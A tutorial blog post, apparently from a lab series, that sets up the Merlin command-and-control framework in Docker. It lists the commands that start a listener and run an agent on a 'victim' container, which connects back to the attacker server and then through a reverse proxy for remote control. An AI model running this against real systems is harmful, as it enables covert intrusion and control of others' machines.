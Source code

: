 ```yaml
---
title: Time for RAT.
description: Draft
date: 2021-07-02
scheduled: 2021-07-02
layout: layouts/post.njk
order: 5
tags:
    - posts
---
```


We have our Attacker server ready, we have our Reverse-Proxy ready, and we have encrypted HTTPS communication.
### It's time for our RAT.
A RAT is a Remote Access Tool. They can be used in a number of positive ways like Windows Remote Control or SSH sessions. Our RAT is going to be malicious though. We're going to control our Victim's system from our Attacker and by using a Reverse-Proxy and SSL we'll be masked and hidden, impossible to trace. Well, not really. But it won't be easy! (We'll try that later.)

First let's get our tools.
Download wget and 7zip onto our Attacker:

``` bash 
apt install wget
apt-get install p7zip-full
```

Next let's get ![Merlin](https://github.com/Ne0nd0g/merlin).
Merlin is a cross-platform post-exploitation Command & Control server and agent written in Go.
We'll create a directory for it and unpack it using 7zip, as per instructions on the ![official site](https://merlin-c2.readthedocs.io/en/latest/quickStart/server.html).

``` bash
mkdir /opt/merlin;cd /opt/merlin
wget https://github.com/Ne0nd0g/merlin/releases/latest/download/merlinServer-Linux-x64.7z
7z x merlinServer-Linux-x64.7z
./merlinServer-Linux-x64
```

![Merlin](/img/remote/merlin.png)

Let's close it for now though, you can do that with `exit` command.

Merlin consists of the server part, which we just saw, and an agent. An agent will sit in our victim, waiting for the server's instructions and executing them. We already have three precompiled agents for each of the big platforms, Windows, Linux and MacOS.
Navigate into `/opt/merlin/data/bin/linux` and you'll find `merlinAgent-Linux-x64`.

Merlin is a post-exploitation framework, meaning it isn't within the scope of the program to get the agent onto our victim. There are plenty ways for that which I won't try to cover. Let's just copy and paste it into our victim.
First, find the Attacker's and Victim's docker container ID's.

``` bash
docker ps 
```
Now we'll copy the agent from our attacker to our desktop and then from our desktop to our victim.

``` bash
docker cp 75566028d8fb:/opt/merlin/data/bin/linux/merlinAgent-Linux-x64 C:\Users\User\Desktop/merlinAgent-Linux-x64
docker cp C:\Users\User\Desktop/merlinAgent-Linux-x64 b9d55696b755:/merlinAgent-Linux-x64
```

Now, we're ready! Let's just check out how Merlin server and Agent work together.
Inside attacker start up Merlin. It's worth mentioning that Merlin has tab completion so if you're unsure about the availeable commands just hit TAB and it'll show you.
Let's use HTTP2.

``` bash
listeners
use http2
options
```

We'll see the defaults now. We'll need to change some of them.
![Merlin options](/img/remote/merlin-options1.png)

Let's use the IP of our container and the port 5555 we've specified earlier and start up our listener.

``` bash
set Interface 172.17.0.3
set Port 5555
start
```

Now we have to connect to our listener with our agent.
Go to victim, navigate to where the agent is, and enter the following:

``` bash
./merlinAgent-Linux-x64 -v -url https://172.17.0.3:5555 -psk 'merlin'
```
With the verbose `-v` flag you should see everything the agent is doing, and on the other side, in our Merlin server, you should see the connection.
Now you have a full control over victim from attacker.
Try our a simple `ls` to get a list of files.

![Merlin ls](/img/remote/merlin-ls.png)

Feels good!

Now let's route the commands through our reverse proxy.
Close the agent with a CTRL + C and enter the following:

``` bash
./merlinAgent-Linux-x64 -v -url https://172.17.0.4/merlin -psk 'merlin'
```

This time we're using the IP of our reverse-proxy, and it still connects!

Let's try out a couple of commands. In our Attacker, in Merlin, type in `interact` and let TAB completion add the agent ID. Now if you hit TAB you can see how many options we have to interact with our Victim! You can read more about each one by typing `help`.
I'll create a `hello.txt` file and upload it to our Victim so I can say hi!

``` bash
!touch hello.txt
upload hello.txt hello.txt
```
We should see the job created and after a moment the job completed. Let's take a look with `ls`.

![list Victim files](/img/remote/list-victim.png)

And there we have it. For now close the Agent with `CTRL + C` and inside Merlin navigate `back` then type `remove` and let the TAB completion fill out agent ID.